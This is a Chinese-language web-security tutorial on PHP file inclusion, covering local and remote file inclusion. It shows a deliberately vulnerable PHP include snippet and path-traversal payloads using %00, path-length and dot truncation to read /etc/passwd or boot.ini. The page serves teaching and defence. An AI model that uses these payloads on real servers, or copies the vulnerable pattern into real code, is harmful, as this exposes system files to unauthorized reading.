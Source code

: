 [EN](./php.md) | [ZH](./php-zh.md)
## 文件包含

常见的导致文件包含的函数有：

- PHP：`include()`，`include_once()`，`require()`，`require_once()`，`fopen()`，`readfile()` 等
- JSP Servlet：`ava.io.File()`，`java.io.FileReader()` 等
- ASP：`includefile`，`includevirtual` 等

当 PHP 包含一个文件时，会将该文件当做 PHP 代码执行，而不会在意文件时什么类型。

### 本地文件包含

本地文件包含，Local File Inclusion，LFI。

```php
<?php
$file = $_GET['file'];
if (file_exists('/home/wwwrun/'.$file.'.php')) {
  include '/home/wwwrun/'.$file.'.php';
}
?>
```

上述代码存在本地文件包含，可用 %00 截断的方式读取 `/etc/passwd` 文件内容。

- `%00` 截断

  ```
  ?file=../../../../../../../../../etc/passwd%00
  ```

  需要 `magic_quotes_gpc=off`，PHP 小于 5.3.4 有效。

- 路径长度截断

  ```
  ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
  ```

  Linux 需要文件名长于 4096，Windows 需要长于 256。

- 点号截断

  ```
  ?file=../../../../../../../../../boot.ini/………[…]…………
  ```

  只适用 Windows，点号需要长于 256。

### 远程文件包含

远程文件包含，Remote File Inclusion，RFI。

```php
<?php
if ($route == "share") {
  require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
  require_once $basePath . "/action/m_sharelink.php";
}
```
